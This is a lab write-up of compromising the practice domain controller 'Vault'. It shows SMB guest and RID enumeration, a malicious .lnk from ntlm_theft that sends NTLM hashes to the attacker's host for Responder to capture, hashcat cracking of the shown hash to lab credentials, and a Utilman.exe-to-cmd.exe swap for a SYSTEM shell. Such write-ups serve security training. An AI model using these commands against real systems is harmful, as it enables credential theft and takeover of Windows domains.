# Vault

## Enumeration

I started with Nmap as usual:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 16:51 MDT
Nmap scan report for 192.168.247.172
Host is up (0.052s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-14 22:53:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-06-14T22:54:51+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC.vault.offsec
| Not valid before: 2024-02-17T05:45:56
|_Not valid after:  2024-08-18T05:45:56
| rdp-ntlm-info: 
|   Target_Name: VAULT
|   NetBIOS_Domain_Name: VAULT
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: vault.offsec
|   DNS_Computer_Name: DC.vault.offsec
|   DNS_Tree_Name: vault.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-14T22:54:12+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-14T22:54:15
|_  start_date: N/A

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   51.07 ms x.x.x.1
2   51.06 ms x.x.x.254
3   51.84 ms 192.168.251.1
4   52.08 ms 192.168.247.172
```

Looks like a domain controller for the `vault.offsec`.

Took a crack an an anonymous `enum4linux`:


```bash
enum4linux -a 192.168.247.172
```


No good.

### Port 53

<figure><figcaption><p>Failed zone transfer</p></figcaption></figure>

### Port 135

As usual I find nothing with rpcdump but with rpcclient it seems I can generate an anonymous session. I am at least able to run some commands:

<figure><figcaption><p>rpcclient</p></figcaption></figure>

Not sure what this means yet but it is something. I follow the steps [here](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/) and am able to find some information but nothing super helpful yet.

I do manage to get a list of all SIDs in the Local Security Authority (LSA) and to map them to common names:

<figure><figcaption><p>Enumerating SIDs with rpcclient</p></figcaption></figure>

A lot of the other commands yielded access denied errors.

### Ports 139 & 445

I was able to list the shares available anonymously:

```bash
smbclient -N -L //192.168.247.172
```

In that output I found a share called `DocumentsShare` and connected anonymously but it was empty. I was unable to connect to the `C$` share:

<figure><figcaption><p>Anonymous SMB enumeration</p></figcaption></figure>

I decide to check if the guest account is available:

```bash
crackmapexec smb 192.168.247.172 -u "guest" -p ""
```

<figure><figcaption><p>Validating guest account</p></figcaption></figure>

#### RID Brute

Given that the guest account is accessible I decide to use `crackmapexec`'s rid-brute to enumerate all groups, users, and aliases via [RID](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers#how-security-identifiers-work):


```bash
crackmapexec smb 192.168.247.172 -u "guest" -p "" --rid-brute
```


<figure><figcaption><p>Brute forcing RIDs</p></figcaption></figure>

This is helpful in enumerating the users available on the system.

## Foothold

I have a list of all users and groups in the domain which is helpful but only if I can impersonate one of them. If I could somehow get the SMB server to reach out to my SMB server I could maybe capture a hash and crack or pass it.

### Capturing a Hash

#### ntlm\_theft

[`ntlm_theft`](https://github.com/Greenwolf/ntlm\_theft) is a is an open source Python tool that generates different types of hash theft documents. These can be used for phishing when either the target allows SMB traffic outside their network, or if you are already inside the internal network. [This article](https://medium.com/greenwolf-security/ntlm-theft-a-file-payload-generator-for-forced-ntlm-hash-disclosure-2d5f1fe5b964) helps explain the workings.

In examining the documentation on GitHub I find the attack types:

<figure><figcaption><p>Attack types for ntlm_theft</p></figcaption></figure>

Of particular interest is the `.lnk` attack. According to the page simply navigating to a folder containing the malicious `.lnk` file is enough to trigger the victim to reach out thus allowing the harvesting of their NTLM hash.

I generate the payload with the command:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>python3 ./ntlm_theft.py -g lnk -s x.x.x.234 -f thft
</strong></code></pre>

<figure><figcaption></figcaption></figure>

#### Responder

Before moving my payload I start a responder instance with the command:

```bash
sudo responder -I tun0 -v
```

Once it is running move the `thft.lnk` file to the victim via `smbclient`. Then simply using the `ls` command causes hashes to be passed (and captured):

<figure><figcaption><p>Moving and triggering the payload via smbclient</p></figcaption></figure>

<figure><figcaption><p>Captured hashes</p></figcaption></figure>

### Cracking the Hash

Since this is NTLMv2 really all I can do is crack it. I copy the NTLMv2-SSP Hash field into a file called `anirudh.ntlmv2` and then cracked it with hashcat:


```
anirudh::VAULT:40454df9786584c3:B129986B321F2D8593438EBBF3EDA993:010100000000000080CDFF188BBEDA01BB116C74D0E017E70000000002000800320046004100430001001E00570049004E002D004800560042005500590050005A00560046004400370004003400570049004E002D004800560042005500590050005A0056004600440037002E0032004600410043002E004C004F00430041004C000300140032004600410043002E004C004F00430041004C000500140032004600410043002E004C004F00430041004C000700080080CDFF188BBEDA0106000400020000000800300030000000000000000100000000200000F6C3E362186EAB3999D398F3282A4C3714E552228B22FE85E2C015FD1AB8398F0A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200330034000000000000000000
```


* I removed it in the copy above but for it to load properly `anirudh.ntlmv2` should end in a carriage return


```bash
hashcat -m 5600 -w 3 -o anirudh.cracked ./anirudh.ntlmv2 /usr/share/wordlists/rockyou.txt
```


The credentials cracked to `anirudh:SecureHM`.

### Using the Credentials

My first check is to see if I can use WinRM because that just makes everything easier. I check with crackmapexec:


```bash
crackmapexec winrm 192.168.247.172 -u anirudh -d vault.offsec -p SecureHM -x "whoami /all"
```


<figure><figcaption><p>Success running a command with WinRM</p></figcaption></figure>

Perfect so I launch an `evil-winrm` session and get started with enumeration:

<figure><figcaption></figcaption></figure>

User access achieved as `anirudh`.

## Privilege Escalation

### Enumeration

Well right away I see that the anirudh user has the SeRestorePrivilege which I know to be exploitable from the [Heist machine](heist.md#serestoreprivilege). That's as good a place as any so I start there.


Start with the compiled [`SeRestoreAbuse`](https://github.com/xct/SeRestoreAbuse/tree/main) but it does not work. I tried it just with whoami and then with a PowerShell reverse shell in case I just was not getting output. Both failed:

<figure><figcaption><p>Failed SeRestoreAbuse.exe runs</p></figcaption></figure>

I decide to try the trick that worked in Heist:

1. Go to the `system32` directory
2. Use rights granted by `SeRestorePrivilege` to rename `Utilman.exe` to `Utilman.old`
3. Move cmd.exe to `Utilman.exe`
4. Launch an RDP session to the locked console (login) screen
5. Press `Win`+`U`
   * This is supposed to launch `Utilman.exe` but because the `.exe` was replaced with `cmd` a shell is launched instead

I start by moving the files:

<figure><figcaption></figcaption></figure>

Then launch an RDP session with `rdesktop` and no login info. This will take me to the lock screen:

```bash
rdesktop 192.168.247.172
```

<figure><figcaption></figcaption></figure>

Pressing `Win`+`U` launches a shell over the login screen.

<figure><figcaption><p>SYSTEM shell</p></figcaption></figure>

`SYSTEM` access achieved.

## Learned

* **RPC Enumeration:** I did not have much experience using rpcclient. While it was not overly helpful this time it did allow some initial enumeration that was helpful
* **SMB guest account:** I usually do not check if there is a `guest` account with no credentials. Instead I just check anonymous and then move on if that fails. This middle ground should be checked after anonymous because I was able to list anonymously but `guest` had `Read/Write` which allowed the uploading of the `ntlm_theft` payload
* **RID Brute-Forcing:** I did not know about `crackmapexec`'s ability to brute force user, groups, etc. via the Relative Identifier (RID). This allowed me a complete list of accounts while only having `guest` access to SMB. Called by adding `--rid-brute` flag to `crackmapexec smb` command
* [**`ntlm_theft`**](https://github.com/Greenwolf/ntlm\_theft)**:** Super helpful tool for aiding in hash stealing. I learned about [`responder` in Heist](heist.md#responder) but this made it really easy to induce the server to reach out just by listing a directory containing a malicious `.lnk` file.

### Difficulty Rating

* **Foothold - 4/10:** Forgot to check `guest` account with SMB which made getting in take awhile. Also did not know about `ntlm_theft` tool.
* **Privilege Escalation - 1/10:** Same as [Heist](heist.md#serestoreprivilege) which just happens to be the last machine I did
